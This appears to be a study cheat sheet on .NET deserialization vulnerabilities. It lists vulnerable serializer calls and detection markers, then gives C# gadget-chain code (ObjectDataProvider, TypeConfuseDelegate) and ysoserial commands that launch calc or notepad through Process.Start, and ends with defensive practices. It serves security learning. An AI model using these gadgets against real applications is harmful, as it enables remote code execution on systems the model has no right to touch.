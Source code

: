 #### White-Box

| Serializer | Example | Reference |
| --- | --- | --- |
| BinaryFormatter | `.Deserialize(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=net-7.0) |
| fastJSON | `JSON.ToObject(...)` | [GitHub](https://github.com/mgholam/fastJSON) |
| JavaScriptSerializer | `.Deserialize(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.script.serialization.javascriptserializer?view=netframework-4.8.1) |
| Json.NET | `JsonConvert.DeserializeObject(...)` | [Newtonsoft](https://www.newtonsoft.com/json) |
| LosFormatter | `.Deserialize(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8.1) |
| NetDataContractSerializer | `.ReadObject(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8.1) |
| ObjectStateFormatter | `.Deserialize(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8.1) |
| SoapFormatter | `.Deserialize(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.soap.soapformatter?view=netframework-4.8.1) |
| XmlSerializer | `.Deserialize(...)` | [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=net-7.0) |
| YamlDotNet | `.Deserialize<...>(...)` | [GitHub](https://github.com/aaubry/YamlDotNet) |

#### Black-Box

For **.NET Applications** we can keep an eye out for the following:

- Base64-encoded strings beginning with `AAEAAAD/////`
- Strings containing `$type`
- Strings containg `__type`
- Strings containg `TypeObject`

Regarding **Java Applications**, the following cases are interesting:

- Bytes containing `AC ED 00 05`
- Base64-encoded string containg `rO0`

# Exploiting Deserialization Vulnerabilities

#### ObjectDataProvider

Code: csharp

```csharp
using System.Windows.Data;

namespace ODPExample
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectType = typeof(System.Diagnostics.Process);
            odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
            odp.MethodParameters.Add("/c calc.exe");
            odp.MethodName = "Start";
        }
    }
}
```

#### TypeConfuseDelegate

Code: csharp

```csharp
Delegate stringCompare = new Comparison<string>(string.Compare);
Comparison<string> multicastDelegate = (Comparison<string>) MulticastDelegate.Combine(stringCompare, stringCompare);
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = multicastDelegate.GetInvocationList();
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");
```

#### YSoSerial.NET

- `-f` to specify the `Formatter`, e.g. `Json.NET`, `XmlSerializer`, `BinaryFormatter`
- `-g` to specify the `Gadget`, e.g. `ObjectDataProvider`, `TypeConfuseDelegate`
- `-c` to specify the `Command`, e.g. `calc`
- `-o` to specify the `Output` mode, e.g. `Base64` or `Raw` for plaintext

```
.\ysoserial.exe -f [Formatter] -g [Gadget] -c [Command] -o [Output]

E.g.:
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -c "notepad" -o Raw
.\ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad" -o Raw
.\ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c 'notepad' -o base64
```

# Defending against Deserialization Vulnerabilities

1. Avoid Deserializing User Input
2. Avoid Unecessary Deserialization
3. Use Secure Serialization Mechanisms
4. Use Explicit Types
5. Use Signed Data
6. Least Possible Privileges